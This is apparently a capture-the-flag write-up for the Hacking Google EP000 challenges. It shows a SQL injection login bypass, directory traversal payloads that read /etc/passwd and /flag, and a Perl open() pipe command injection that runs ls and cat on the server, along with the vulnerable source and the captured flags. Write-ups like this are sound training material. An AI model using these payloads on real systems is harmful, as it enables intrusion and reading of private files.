

# Hacking Google EP000 - Operation Aurora

My writeup for EP000 of the Hacking Google CTF : Operation Aurora.

<!-- more -->

Before reading this writeup I suggest you first check the [accompanying video on Youtube](https://www.youtube.com/watch?v=przDcQe6n5o) from the HACKING GOOGLE series.

## Challenge 01 - Hacker Chess

> A clean and fair game of chess. Careful though, this is not a game for grandmasters to win.

> Hint: Don't make this game harder than it needs to be.

<figure markdown>
  
  <figcaption><a href="https://hackerchess-web.h4ck.ctfcompetition.com/">https://hackerchess-web.h4ck.ctfcompetition.com/</a></figcaption>
</figure>

The application let's you play chess against an AI but something phishy is going on since the difficulty levels are `Invicible`, `Unbeatable` and `Impossible`. This was enough to dissuade me from trying to beat this challenge in a fair game of Chess.

Instead I checked the Master Login form:

```html
<body>
  <form method="post">
    username: <input type="text" name="username" /><br />
    password: <input type="password" name="password" /><br />
    <input type="submit" />
  </form>
</body>
```

My first attempt was to use a basic SQL injection[^sql-injection] to bypass the login form: `' or 1=1-- a`. This was enough to access the administration panel.

[^sql-injection]: [SQL Injection](https://portswigger.net/web-security/sql-injection)

```html
<body>
  <h1>Change config of the Chess AI!</h1>
  <form method="POST">
    Thinking Time: <input type="number" name="thinking_time" value=""><br />
    AI Queen Cheats: <input type="radio" id="cheats_enabled" name="cheats_enabled" value="1"> <label
      for="cheats_enabled">Yes</label> <input type="radio" id="cheats_enabled" name="cheats_enabled" value="0">
    <label for="cheats_enabled">No</label><!-- Currently set to:  -->
    <input type="submit">
  </form>
</body>
```

To make sure that I would be able to win I set the `AI Queen Cheats` to `No` and changed the `Thinking Time` to `1` (second ?). I then used [Next Chess Move](https://nextchessmove.com/) to stack all the odds in my favour.


!!! info
    I had to use Burp to be able to promote a piece and castling did not appear to be implemented.

Winning the game resulted in the Flag being displayed:

> ZOMG How did you defeat my AI :(. You definitely cheated. Here's your flag: https://h4ck1ng.google/solve/h4cker_a1_d3f34t3d_n1c3

## Challenge 02 - Log Search Tool

> After recent attacks, we’ve developed a search tool. Search the logs and discover what the attackers were after.

> Hint: Always search deeper.

<figure markdown>
  { width="500px"}
  <figcaption><a href="https://aurora-web.h4ck.ctfcompetition.com/">https://aurora-web.h4ck.ctfcompetition.com/</a></figcaption>
</figure>

This time the application let's you search a term in a limited list of log files. I quickly realized that it was possible to manipulate the request to read other file from the system using directory traversal[^directory-traversal].

[^directory-traversal]: [Directory traversal](https://portswigger.net/web-security/file-path-traversal)

Using the following payload `file=../../etc/passwd&term=/usr` we can read `/etc/passwd`. The problem is that we don't know where the flag is so we need to dig deeper.

!!!info
    I realized while writing this writeup that this was in fact enough to solve the challenge with a little bit of guessing since the flag was located at `/flag` and we knew from the previous challenge the format of the flag. The following payload gets you the flag: `file=../../flag&term=google`.

Looking at the code of the webpage we notice a comment referencing a file `/src.txt` under the webroot. This file contains the source of the running Perl application:

```perl title="src.txt"
use strict;
use warnings;

use utf8::all;
use CGI;
use HTML::Template;

sub files_in_dir {
  my $dirname = shift;
  opendir my $dir, $dirname;
  my @files = grep $_ ne "." && $_ ne "..", readdir $dir;
  closedir $dir;
  return @files;
}

sub find_lines {
  my ($filename, $needle) = @_;
  my @results = ();
  if (length($needle) >= 4) {
    # I am sure this is totally secure! (1)
    open(my $fh, "logs/".$filename);
    while (my $line = <$fh>) {
      if (index(lc($line), lc($needle)) >= 0) {
        push(@results, $line);
      }
    }
  }
  return @results;
}

sub list_to_tmpl {
  my ($tmpl_name, @elems) = @_;
  my @results = ();
  while (@elems) {
    push(@results, {$tmpl_name, shift @elems});
  }
  return \@results;
}

sub main_page {
  my $tmpl = HTML::Template->new(filename => "templates/default.html");
  $tmpl->param(FILES => list_to_tmpl("NAME", files_in_dir("logs")));
  return $tmpl->output;
}

my $q = CGI->new;

my $pfile = $q->param("file");
if (($pfile // "") eq "") {
  print $q->header(-charset => "utf-8");
  print main_page;
} else {
  print $q->header(-type => "text/plain", -charset => "utf-8");
  print join("", find_lines($pfile, scalar $q->param("term")));
}
```

1. This one is a big hint and we should investigate !

The comment lead me to the following piece of documentation[^perl-function] regarding the `open` function in Perl:

[^perl-function]: [Security Issues in Perl Scripts](https://www.cgisecurity.com/lib/sips.html)

>The open() function in Perl is used to open files. In its most common form, it is used in the following way:
>
>     open (FILEHANDLE, "filename");
>
>Used like this, "filename" is open in read-only mode. If "filename" is prefixed with the ">" sign, it is open for output, overwriting the file if it already exists. If it is prefixed with ">>" it is open for appending. The prefix "<" opens the file for input, but this is also the default mode if no prefix is used. Some problems of using unvalidated user input as part of the filename should already be obvious. **For example the backward directory traversing trick works just as well here**.
>
>There are other worries. Let's modify our script to use open() instead of "cat". We would have something like:
>
>     open (STATFILE, "/usr/stats/$username");
>
>and then some code to read from the file and show it. The Perl documentation tells us that:
>
>    If the filename begins with "|", the filename is interpreted as a command to which output is to be piped, and if the filename ends with a "|", the filename is interpreted as a command which pipes output to us.
>
>**The user can then run any command under the /usr/stats directory, just by postfixing a '|'. Backwards directory traversal can allow the user to execute any program on the system**.

So there is not only a directory traversal issue but we can also execute arbitrary code on the system such as `ls` and `cat`.

If we use the following payload `?file=../../usr/bin/ls%20-l%20/|&term=flag` we can see the partial result of `ls`:

```
-rw-r--r--   1 nobody nogroup   52 Aug 18 12:08 flag
```

To get the flag we can use `file=../../usr/bin/cat%20/flag|&term=google`:

> https://h4ck1ng.google/solve/Y37_@N07h3r_P3r1_H@X0R
